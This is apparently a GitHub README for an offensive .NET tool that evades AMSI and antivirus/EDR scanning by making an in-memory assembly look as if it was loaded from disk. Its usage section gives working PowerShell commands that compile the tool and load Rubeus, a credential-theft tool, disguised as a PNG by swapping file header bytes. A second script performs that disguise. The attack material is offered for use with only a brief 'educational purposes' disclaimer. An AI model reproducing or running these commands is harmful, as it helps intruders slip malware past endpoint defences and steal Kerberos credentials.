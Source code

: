 # TrollAMSIdotnet
TrollAMSI only bypasses powershell's amsi and not the CLR amsi during Assembly.Load(). Was looking for a troll way to do this but seems like already done in the most epic way possible: https://github.com/G0ldenGunSec/SharpTransactedLoad. Read his blog for full details on his ingenious approach to bypassing amsi. G0ldenGunSec's implementation uses easyhook.dll for hooking which inturn requires cody fostura. Due to the proliferated use of both libraries in offensive security projects, they have been signaturized. Decided to re-write the hooking aspect to make it opsec safer. Ended up just copy pasting code to create a single .cs file for convenience. 

**Note:** Only .cs version released, you can just compile it to an assembly and load it (refer to trollAMSI) 

## Why is this technique so powerful?
Because even if you bypass amsi, when you any sort of assembly.load, the byte array is scanned during virtualalloc, etc by the AV/EDR. This spoofs a byte array to appear on disk and the AV/EDR will not re-scan the byte array due to unnecessary overhead, since it is already assumed to be scanned when on disk. 
![Image](https://github.com/user-attachments/assets/c893ef11-20a5-455a-a62c-1d6a717884fe)
## Usage 
```
#First download TrollAmsiDOTNET.cs and dog.png (taken from flangvik/SharpCollection nightly build, you can sha1 the bytes before loading to check)

C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /nologo /optimize /out:TrollAmsiDOTNET.dll /target:library TrollAmsiDOTNET.cs > $null
$MZHeader = [byte[]](0x4D, 0x5A, 0x90, 0x00, 0x03, 0x00, 0x00, 0x00)
$fileBytes = [System.IO.File]::ReadAllBytes("C:\troll\dog.png")
for ($i = 0; $i -lt 8; $i++) {$fileBytes[$i] = $MZHeader[$i] }
[System.Reflection.Assembly]::Load([System.IO.File]::ReadAllBytes("C:\troll\TrollAmsiDOTNET.dll")) > $null
#[string[]]$myargs = "triage","/consoleoutfile:C:\troll\hehe.txt"
[string[]]$myargs = "triage"
$entryPoint = ([TrollAmsiDOTNET]::SpoofFileLoad($fileBytes,"Rubeus.exe")).EntryPoint
$entryPoint.Invoke($null, (,$myargs))

```

## Code to change MZ header to PNG header 
```
$infile = "C:\troll\Rubeus.exe"
$outfile = "C:\troll\dog.png"
$pngMagicBytes = [byte[]](0x89, 0x50, 0x4E, 0x47, 0x0D, 0x0A, 0x1A, 0x0A)
$fileBytes = [System.IO.File]::ReadAllBytes($infile)
for ($i = 0; $i -lt 8; $i++) {$fileBytes[$i] = $pngMagicBytes[$i] }
[System.IO.File]::WriteAllBytes($outfile, $fileBytes)
```

## Disclaimer
Should only be used for educational purposes!
